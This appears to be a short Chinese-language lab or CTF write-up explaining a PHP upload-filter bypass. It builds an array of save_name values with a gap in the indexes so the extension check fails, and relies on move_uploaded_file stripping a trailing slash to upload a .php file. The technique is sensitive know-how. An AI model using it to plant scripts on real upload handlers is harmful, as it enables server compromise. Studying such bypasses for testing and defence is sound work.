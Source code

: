 `reset()`函数获取文件名，`count()`函数获取数组元素个数来获取后缀

```php
$file_name = reset($file) . '.' . $file[count($file) - 1];
```

结果

```
Array ( [0] => test [1] => jpg )
test.jpg
```

，自己构造数组绕过，`count()`函数获取数组元素个数

```
test.php.jpg

Array ( [0] => test.php [1] => jpg )
test.php.jpg
```

把test.php保留，去除jpg，绕过`$file[count($file) - 1]`即`$file[count($file) - 1] `置空

```
$file[0] = "test.php";
$file[2] = "jpg";

Array ( [0] => test.php [2] => jpg )
test.php.
```

通过`move_uploaded_file`函数把点去掉，`move_uploaded_file`会自动去掉末尾的`/`

```
save_name[0] = test.php/
save_name[2] = jpg
```

构造数据包发送上传成功。

![image-20221202180825799](http://image.jh2ing.com/image-20221202180825799.png)

